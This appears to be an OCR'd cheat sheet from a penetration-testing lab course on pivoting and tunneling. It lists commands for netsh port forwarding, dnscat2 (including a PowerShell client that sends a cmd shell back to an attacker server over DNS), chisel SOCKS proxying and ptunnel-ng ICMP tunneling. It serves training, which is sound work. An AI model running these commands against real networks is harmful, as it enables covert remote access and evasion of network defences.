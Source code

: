 > Windows-based command that uses `netsh.exe` to configure a portproxy rule called `v4tov4` that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.

`netsh.exe interface portproxy show v4tov4`

> Windows-based command used to view the configurations of a portproxy rule called v4tov4.

`git clone [https://github.com/iagox86/dnscat2.git`](https://github.com/iagox86/dnscat2.git%60)

> Clones the `dnscat2` project GitHub repository.

`sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`

> Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled.

`git clone [https://github.com/lukebaggett/dnscat2-powershell.git`](https://github.com/lukebaggett/dnscat2-powershell.git%60)

> Clones the dnscat2-powershell project Github repository.

`Import-Module dnscat2.ps1`

> PowerShell command used to import the dnscat2.ps1 tool.

`Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`

> PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`).

`dnscat2> ?`

> Used to list dnscat2 options.

`dnscat2> window -i 1`

> Used to interact with an established dnscat2 session.

`./chisel server -v -p 1234 --socks5`

> Used to start a chisel server in verbose mode listening on port `1234` using SOCKS version 5.

`./chisel client -v 10.129.202.64:1234 socks`

> Used to connect to a chisel server at the specified IP address & port using socks.

`git clone [https://github.com/utoni/ptunnel-ng.git`](https://github.com/utoni/ptunnel-ng.git%60)

> Clones the ptunnel-ng project GitHub repository.

`sudo ./autogen.sh`

> Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files.

`sudo ./ptunnel-ng -r10.129.202.64 -R22`

> Used to start the ptunnel-ng server on the specified IP address (`-r`) and corresponding port (`-R22`).

`sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`

> Used to connect to a specified ptunnel-ng server through local port 2222 (`-l2222`).
